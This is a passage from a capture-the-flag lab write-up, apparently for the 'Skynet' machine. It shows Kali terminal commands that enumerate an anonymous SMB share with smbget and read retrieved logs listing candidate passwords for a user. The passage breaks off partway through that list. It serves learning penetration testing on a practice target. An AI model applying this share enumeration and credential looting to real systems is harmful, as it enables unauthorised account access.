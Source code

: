 
##### /squirrelmail

![](/assets/obsidian/3376b733fab7c3ffbbe4093c0eef447f.png)


## Deploy and compromise the vulnerable machine!
---


### What is Miles password for his emails?


#### Enum SMB and get password from logs

```bash
┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ smbget -R -a smb://10.10.67.8/anonymous
Using workgroup WORKGROUP, guest user
smb://10.10.67.8/anonymous/attention.txt
smb://10.10.67.8/anonymous/logs/log2.txt
smb://10.10.67.8/anonymous/logs/log1.txt
smb://10.10.67.8/anonymous/logs/log3.txt
Downloaded 634b in 10 seconds

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ ls
log1.txt  log2.txt  log3.txt

┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ cat attention.txt
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

┌──(kali㉿kali)-[~/…/skynet/results/10.10.67.8/loot]
└─$ cd logs

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ ls
log1.txt  log2.txt  log3.txt

┌──(kali㉿kali)-[~/…/results/10.10.67.8/loot/logs]
└─$ cat log1.txt
cyborg007haloterminator
terminator22596
terminator219
...
```
